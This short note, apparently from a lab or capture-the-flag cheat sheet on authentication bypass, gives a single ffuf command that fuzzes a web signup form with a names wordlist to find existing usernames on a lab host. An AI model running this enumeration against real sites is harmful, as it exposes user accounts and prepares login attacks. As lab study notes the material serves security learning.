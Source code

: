 ### Authentication Bypass

---

To find the existing users on a webpage

```py
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt 
-X POST -d "username=FUZZ&email=x&password=x&cpassword=x" 
-H "Content-Type: application/x-www-form-urlencoded" -u 
http://10.10.54.208/customers/signup -mr "username already exists"
```


